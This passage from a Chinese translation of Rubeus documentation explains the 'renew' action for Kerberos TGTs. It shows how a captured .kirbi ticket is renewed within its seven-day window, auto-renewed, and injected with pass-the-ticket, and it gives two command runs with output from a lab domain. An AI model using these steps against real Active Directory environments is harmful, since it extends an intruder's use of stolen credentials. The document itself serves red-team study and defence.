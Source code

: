 **注意，/luid 和 /createnetonly 参数需要管理员权限执行！**

### <a class="reference-link" name="renew"></a>renew

大多数域默认的 Kerberos 策略为 TGT 提供10小时的生命期，并具有7天的续订窗口。那这到底意味着什么呢？

当把一个用户的票据注入到 LSASS 进程时，注入的将不仅仅是 TGT，而是 [KRB-CRED 结构](https://github.com/gentilkiwi/kekeo/blob/master/modules/asn1/KerberosV5Spec2.asn#L305-L310) （即Mimikatz语言中的.kirbi文件），其中包括了用户的TGT（用krbtgt Kerberos 服务签名密钥进行加密）和 包含了一个或多个 [KrbCredInfo](https://github.com/gentilkiwi/kekeo/blob/master/modules/asn1/KerberosV5Spec2.asn#L323-L335) 结构的 [EncKrbCredPart](https://github.com/gentilkiwi/kekeo/blob/master/modules/asn1/KerberosV5Spec2.asn#L314-L321) 。这些最终的结构包含一个由 TGT 请求（AS-REQ/AS-REP）返回的 [ 会话密钥](https://github.com/gentilkiwi/kekeo/blob/master/modules/asn1/KerberosV5Spec2.asn#L324) 。这个会话密钥和不透明的 TGT blob 数据结合起来，可以请求一些附加的资源。这个会话密钥默认只有10个小时的生命期，但是 TGT 默认最多有7天的续订窗口，来接收一个新的会话密钥，从而就会有一个可用的 KRB-CRED 结构。

所以，如果你有一个在10小时的有效生命期内的 .kirbi 文件（或者对应的Rubeus base64 blob），并且还在7天的续订窗口期内，就可以使用 Kekeo 或者 Rubeus 来续订 TGT ，从而重启10个小时的窗口期，延长票据的有效生命期。

这个**续订**的动作将使用指定的 /ticket:X 来建立/解析一个原始的 TGS-REQ/TGS-REP TGT 续订交换过程。这个值也可设置为一个 .kirbi 文件的 base64 编码，或者是一个磁盘上的 .kirbi 文件的路径。如果未指定 /dc 参数，则将当前主机所在域的域控作为续订流量的目标。/ptt 参数将执行 “pass-the-ticket” ，并将生成的 Kerberos 凭证用于当前登录会话 。

```
c:Rubeus&gt;Rubeus.exe renew /ticket:doIFmjCC...(snip)...

 ______        _
(_____       | |
 _____) )_   _| |__  _____ _   _  ___
|  __  /| | | |  _ | ___ | | | |/___)
| |   | |_| | |_) ) ____| |_| |___ |
|_|   |_|____/|____/|_____)____/(___/

v1.0.0

[*] Action: Renew TGT

[*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
[*] Building TGS-REQ renewal for: 'TESTLAB.LOCALdfm.a'
[*] Connecting to 192.168.52.100:88
[*] Sent 1500 bytes
[*] Received 1510 bytes
[+] TGT renewal request successful!
[*] base64(ticket.kirbi):

    doIFmjCCBZagAwIBBaEDAgEWooIErzCCBKthggSnMIIEo6ADAgEFoQ8bDVRFU1RMQUIuTE9DQUyiIjAg
    ...(snip)...
```

如果你想要票据在到达续订窗口之前能够自动续订，只需使用 /autorenew 参数：

```
C:Rubeus&gt;Rubeus.exe renew /ticket:doIFFj...(snip)... /autorenew

   ______        _
  (_____       | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ | ___ | | | |/___)
  | |   | |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.0.0

[*] Action: Auto-Renew TGT


[*] User       : harmj0y@TESTLAB.LOCAL
[*] endtime    : 9/24/2018 3:34:05 AM
[*] renew-till : 9/30/2018 10:34:05 PM
```